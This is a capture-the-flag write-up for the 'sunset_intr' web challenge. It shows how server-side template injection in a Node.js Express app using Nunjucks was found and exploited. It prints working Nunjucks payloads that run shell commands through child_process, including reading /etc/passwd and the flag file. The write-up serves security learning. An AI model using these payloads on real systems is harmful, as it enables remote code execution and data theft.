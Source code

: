 In this challenge, no files were provided, only an URL to access. Accessing
it:

![Alt text](https://github.com/uac-ctf/UA-CSW-
CTF2022-Writeups/blob/master/web/sunset_intr/images/home_page.png?raw=true)

a simple HTML page is served with an input box. Interacting with it, we are
sent to another page

![Alt text](https://github.com/uac-ctf/UA-CSW-
CTF2022-Writeups/blob/master/web/sunset_intr/images/display_username.png?raw=true)

that is just displaying the content that comes in the *payload* query
parameter.  Looking at the response headers:

![Alt text](https://github.com/uac-ctf/UA-CSW-
CTF2022-Writeups/blob/master/web/sunset_intr/images/app_headers.png?raw=true)

there is an *X-Powered-By: Express* header. If we search for that in Google,
we will find out that is related to NodeJS [Express](https://expressjs.com/)
framework.  
To solve the challenge, the title is the clue "SunSet introspecTIon". If we
remove the lower case letters, we will get *SSTI* that translates to [Server
Side Template Injection](https://portswigger.net/research/server-side-
template-injection). The other clue was the
[nunjucks](https://mozilla.github.io/nunjucks/) in the description, which is a
template engine for Js.

To be sure that the challenge is indeed related to an SSTI vulnerability, we
can test it out with `{{7*7}}` that after render should result in 49 being
served.

![Alt text](https://github.com/uac-ctf/UA-CSW-
CTF2022-Writeups/blob/master/web/sunset_intr/images/ssti_test.png?raw=true)

and it is indeed that. Now we need to find a way to execute commands there,
and we can use a great resource for that, Hacktricks.
<https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-
injection#nunjucks>

```js  
{{range.constructor("return
global.process.mainModule.require('child_process').execSync('cat
/etc/passwd')")()}}  
```

will result in

![Alt text](https://github.com/uac-ctf/UA-CSW-
CTF2022-Writeups/blob/master/web/sunset_intr/images/ssti_passwd.png?raw=true)

Now, we just need to find the flag

```js  
// List the current directory  
{{range.constructor("return
global.process.mainModule.require('child_process').execSync('ls -la')")()}}  
// Get the flag contents  
{{range.constructor("return
global.process.mainModule.require('child_process').execSync('cat flag')")()}}  
```

![Alt text](https://github.com/uac-ctf/UA-CSW-
CTF2022-Writeups/blob/master/web/sunset_intr/images/ssti_flag.png?raw=true)